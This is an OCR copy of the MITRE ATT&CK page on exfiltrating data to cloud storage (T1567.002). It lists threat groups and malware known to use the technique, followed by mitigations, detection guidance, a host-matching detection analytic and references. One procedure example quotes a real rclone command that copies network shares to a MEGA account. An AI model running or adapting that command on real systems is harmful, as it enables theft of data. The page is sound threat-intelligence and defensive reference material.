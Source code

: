 3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 1/6Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 2/6Home>Techniques>Enterprise>Exﬁltration Over Web Service>Exﬁltration to Cloud Storage3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 3/6Exﬁltration Over Web Service: Exﬁltration to Cloud
Storage
Adversaries may exﬁltrate data to a cloud storage service rather than over their primary command and control channel. Cloud storage
services allow for the storage, edit, and retrieval of data from a remote cloud storage server over the Internet.
Examples of cloud storage services include Dropbox and Google Docs. Exﬁltration to these cloud storage services can provide a signiﬁcant
amount of cover to the adversary if hosts within the network are already communicating with the service.Other sub-techniques of Exﬁltration Over Web Service (4)
Version PermalinkID: T1567.002
Sub-technique of:  T1567
 
Tactic: Exﬁltration
 
Platforms: Linux, Windows, macOS
Version: 1.2
Created: 09 March 2020
Last Modiﬁed: 15 September 20233/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 4/6Procedure Examples
ID Name Description
S0635 BoomBox BoomBox can upload data to dedicated per-victim folders in Dropbox.
S0651 BoxCaon BoxCaon has the capability to download folders' contents on the system and upload the results back to
its Dropbox drive.
C0015 C0015 During C0015, the threat actors exﬁltrated ﬁles and sensitive data to the MEGA cloud storage site using
the Rclone command rclone.exe copy --max-age 2y "\\SERVER\Shares" Mega:DATA -q --ignore-
existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M .
G0114 Chimera Chimera has exﬁltrated stolen data to OneDrive accounts.
S0660 Clambling Clambling can send ﬁles from a victim's machine to Dropbox.
G0142 Confucius Confucius has exﬁltrated victim data to cloud storage service accounts.
S1023 CreepyDrive CreepyDrive can use cloud services including OneDrive for data exﬁltration.
S0538 Crutch Crutch has exﬁltrated stolen data to Dropbox.
G1006 Earth Lusca Earth Lusca has used the megacmd tool to upload stolen ﬁles from a victim network to MEGA.
S0363 Empire Empire can use Dropbox for data exﬁltration.
G0046 FIN7 FIN7 has exﬁltrated stolen data to the MEGA ﬁle sharing site.
G0125 HAFNIUM HAFNIUM has exﬁltrated data to ﬁle sharing sites, including MEGA.
S0037 HAMMERTOSS HAMMERTOSS exﬁltrates data by uploading it to accounts created by the actors on Web cloud storage
providers for the adversaries to retrieve later.
G1001 HEXANE HEXANE has used cloud services, including OneDrive, for data exﬁltration.
G0094 Kimsuky Kimsuky has exﬁltrated stolen ﬁles and data to actor-controlled Blogspot accounts.
G0065 Leviathan Leviathan has used an uploader known as LUNCHMONEY that can exﬁltrate ﬁles to Dropbox.
G1014 LuminousMoth LuminousMoth has exﬁltrated data to Google Drive.
S0340 Octopus Octopus has exﬁltrated data to ﬁle sharing sites.
C0022 Operation Dream
JobDuring Operation Dream Job, Lazarus Group used a custom build of open-source command-line dbxcli to
exﬁltrate stolen data to Dropbox.
G1005 POLONIUM POLONIUM has exﬁltrated stolen data to POLONIUM-owned OneDrive and Dropbox accounts.
S0629 RainyDay RainyDay can use a ﬁle exﬁltration tool to upload speciﬁc ﬁles to Dropbox.
S1040 Rclone Rclone can exﬁltrate data to cloud storage services such as Dropbox, Google Drive, Amazon S3, and
MEGA.
S0240 ROKRAT ROKRAT can send collected data to cloud storage services such as PCloud.
G0027 Threat Group-
3390Threat Group-3390 has exﬁltrated stolen data to Dropbox.[1]
[2]
[3]
[4]
[5][6]
[7]
[8]
[9]
[10]
[11]
[12]
[13]
[14]
[8]
[15]
[16][17]
[18]
[19]
[20][21]
[8]
[22]
[23][3]
[24][25]
[5]3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 5/6ID Name Description
G0010 Turla Turla has used WebDAV to upload stolen USB ﬁles to a cloud drive. Turla has also exﬁltrated stolen
ﬁles to OneDrive and 4shared.
G0102 Wizard Spider Wizard Spider has exﬁltrated stolen victim data to various cloud storage providers.
G0128 ZIRCONIUM ZIRCONIUM has exﬁltrated stolen data to Dropbox.
Mitigations
ID Mitigation Description
M1021 Restrict Web-Based
ContentWeb proxies can be used to enforce an external network communication policy that prevents use of
unauthorized external services.
Detection
ID Data Source Data Component Detects
DS0017 Command Command
ExecutionMonitor executed commands and arguments that may exﬁltrate data to a cloud storage
service rather than over their primary command and control channel.
DS0022 File File Access Monitor for ﬁles being accessed to exﬁltrate data to a cloud storage service rather than
over their primary command and control channel.
DS0029 Network TraﬃcNetwork
Connection
CreationMonitor for newly constructed network connections to cloud services associated with
abnormal or non-browser processes.
Network Traﬃc
ContentMonitor and analyze traﬃc patterns and packet inspection associated to protocol(s) that
do not follow the expected protocol standards and traﬃc ﬂows (e.g extraneous packets
that do not belong to established ﬂows, gratuitous or anomalous traﬃc patterns,
anomalous syntax, or structure). Consider correlation with process monitoring and
command line to detect anomalous processes execution and command line arguments
associated to traﬃc patterns (e.g. monitor anomalies in use of ﬁles that do not normally
initiate connections for respective protocol(s)).
Network Traﬃc
FlowMonitor network data for uncommon data ﬂows. Processes utilizing the network that do
not normally have network communication or have never been seen before are
suspicious. Monitor for cloud storages for data exﬁltration.
Analytic 1 - Suspicious Data Exﬁl
suspicious\_exfil = filter network\_traffic where (httpHost = "dropbox.com"
or httpHost = "box.com" or httpHost = "drive.google.com" or httpHost =
"mega.io" or httpHost = "mediafire.com")[26]
[27]
[28]
[29]3/22/24, 3:52 PM Exﬁltration Over Web Service: Exﬁltration to Cloud Storage, Sub-technique T1567.002 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1567/002/ 6/6References
1. MSTIC. (2021, May 28). Breaking down NOBELIUM’s latest
early-stage toolset. Retrieved August 4, 2021.
2. CheckPoint Research. (2021, July 1). IndigoZebra APT
continues to attack Central Asia with evolving tools. Retrieved
September 24, 2021.
3. DFIR Report. (2021, November 29). CONTInuing the Bazar
Ransomware Story. Retrieved September 29, 2022.
4. Jansen, W . (2021, January 12). Abusing cloud services to ﬂy
under the radar. Retrieved January 19, 2021.
5. Lunghi, D. et al. (2020, February). Uncovering DRBControl.
Retrieved November 12, 2021.
 . Chen, T. and Chen, Z. (2020, February 17). CLAMBLING - A
New Backdoor Base On Dropbox. Retrieved November 12,
2021.
7. Lunghi, D and Horejsi, J. (2018, February 13). Deciphering
Confucius: A Look at the Group's Cyberespionage Operations.
Retrieved December 26, 2021.
 . Microsoft. (2022, June 2). Exposing POLONIUM activity and
infrastructure targeting Israeli organizations. Retrieved July 1,
2022.
9. Faou, M. (2020, December 2). Turla Crutch: Keeping the “back
door” open. Retrieved December 4, 2020.
10. Chen, J., et al. (2022). Delving Deep: An Analysis of Earth
Lusca’s Operations. Retrieved July 1, 2022.
11. Schroeder, W., Warner, J., Nelson, M. (n.d.). Github
PowerShellEmpire. Retrieved April 28, 2016.
12. Loui, E. and Reynolds, J. (2021, August 30). CARBON SPIDER
Embraces Big Game Hunting, Part 1. Retrieved September 20,
2021.
13. MSTIC. (2021, March 2). HAFNIUM targeting Exchange
Servers with 0-day exploits. Retrieved March 3, 2021.
14. FireEye Labs. (2015, July). HAMMERTOSS: Stealthy Tactics
Deﬁne a Russian Cyber Threat Group. Retrieved September 17,
2015.
15. An, J and Malhotra, A. (2021, November 10). North Korean
attackers use malicious blogs to deliver malware to high-
proﬁle South Korean targets. Retrieved December 29, 2021.1 . Axel F, Pierre T. (2017, October 16). Leviathan: Espionage actor
spearphishes maritime and defense targets. Retrieved
February 15, 2018.
17. FireEye. (2018, March 16). Suspected Chinese Cyber
Espionage Group (TEMP.Periscope) Targeting U.S. Engineering
and Maritime Industries. Retrieved April 11, 2018.
1 . Botezatu, B and etl. (2021, July 21). LuminousMoth - PlugX,
File Exﬁltration and Persistence Revisited. Retrieved October
20, 2022.
19. Cherepanov, A. (2018, October 4). Nomadic Octopus Cyber
espionage in Central Asia. Retrieved October 13, 2021.
20. Breitenbacher, D and Osis, K. (2020, June 17). OPERATION
IN(TER)CEPTION: Targeted Attacks Against European
Aerospace and Military Companies. Retrieved December 20,
2021.
21. ClearSky Research Team. (2020, August 13). Operation
'Dream Job' Widespread North Korean Espionage Campaign.
Retrieved December 20, 2021.
22. Vrabie, V. (2021, April 23). NAIKON – Traces from a Military
Cyber-Espionage Operation. Retrieved June 29, 2021.
23. Nick Craig-Wood. (n.d.). Rclone syncs your ﬁles to cloud
storage. Retrieved August 30, 2022.
24. Jazi, Hossein. (2021, January 6). Retrohunting APT37: North
Korean APT used VBA self decode technique to inject RokRat.
Retrieved March 22, 2022.
25. Cash, D., Grunzweig, J., Adair, S., Lancaster, T. (2021, August
25). North Korean BLUELIGHT Special: InkySquid Deploys
RokRAT. Retrieved October 1, 2021.
2 . Symantec DeepSight Adversary Intelligence Team. (2019,
June 20). Waterbug: Espionage Group Rolls Out Brand-New
Toolset in Attacks Against Governments. Retrieved July 8,
2019.
27. Faou, M. (2020, May). From Agent.btz to ComRAT v4: A ten-
year journey. Retrieved June 15, 2020.
2 . Shilko, J., et al. (2021, October 7). FIN12: The Proliﬁc
Ransomware Intrusion Threat Actor That Has Aggressively
Pursued Healthcare Targets. Retrieved June 15, 2023.
29. Singh, S. and Antil, S. (2020, October 27). APT-31 Leverages
COVID-19 Vaccine Theme and Abuses Legitimate Online
Services. Retrieved March 24, 2021.